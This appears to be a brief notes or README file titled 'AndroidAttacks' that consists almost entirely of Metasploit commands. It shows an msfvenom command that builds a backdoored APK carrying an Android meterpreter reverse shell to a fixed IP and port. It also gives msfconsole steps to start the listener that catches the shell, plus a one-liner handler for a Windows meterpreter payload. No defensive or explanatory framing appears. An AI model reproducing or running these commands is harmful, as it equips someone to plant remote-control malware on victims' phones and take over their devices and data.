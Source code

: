 # AndroidAttacks

## Running msfconsole one-liner
```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <listening_host>;set LPORT <listening_port>;run;"
```

## Creates a backdoor
```
$msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.178.30 LPORT=4444 R > result.apk
```

## Runs a listener
```
$msfconsole
$use exploit/multi/handler
$set payload android/meterpreter/reverse_tcp
$set LHOST 192.168.178.30
$set LPORT 4444
$exploit
```
